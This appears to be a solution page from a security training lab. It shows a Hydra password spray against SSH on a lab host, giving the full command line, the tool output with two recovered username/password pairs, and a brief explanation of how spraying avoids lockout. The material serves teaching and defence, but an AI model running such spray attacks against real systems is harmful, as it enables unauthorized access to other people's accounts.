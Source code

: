 ### Click to see solution - Password Spray with Hydra

Next, use Hydra to conduct a password spray attack, using the eusers.txt and the passwords.txt files.

    sec504@slingshot:~/labs/passhydra$ hydra -t 4 -L eusers.txt -P passwords.txt ssh://172.30.0.25
    Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (http://www.thc.org/thc-hydra) starting at 2020-07-26 13:13:52
    [DATA] max 4 tasks per 1 server, overall 4 tasks, 399 login tries (l:19/p:21), ~100 tries per task
    [DATA] attacking ssh://172.30.0.25:22/
    [22][ssh] host: 172.30.0.25   login: jorestes   password: Admin123!@#
    [STATUS] 222.00 tries/min, 222 tries in 00:01h, 177 to do in 00:01h, 4 active
    [22][ssh] host: 172.30.0.25   login: pemma   password: P@$$w0rd
    [STATUS] 199.50 tries/min, 399 tries in 00:02h, 1 to do in 00:01h, 2 active
    1 of 1 target successfully completed, 2 valid passwords found
    Hydra (http://www.thc.org/thc-hydra) finished at 2020-07-26 13:15:57

Quickly Hydra reveals the password information for the jorestes account. Given several minutes, Hydra will also reveal the password for the pemma account.

Note: Optionally, you may use the recovered credentials to access the SSH server. Search for the file secret.txt for a tip on succeeding at the CTF event.
Cleanup

When you are finished interacting with the eDirectory server, return to the terminal where you ran the gohydratgt command and press CTRL+C to terminate the container instance.

## Why This Lab Is Important

This lab demonstrates how attackers can launch password guessing attacks using freely available tools such as Hydra. While naive password guessing for a single user account may trigger account lockout on many systems, attackers can leverage the features of Hydra to avoid account lockout by implementing a password spray attack instead.
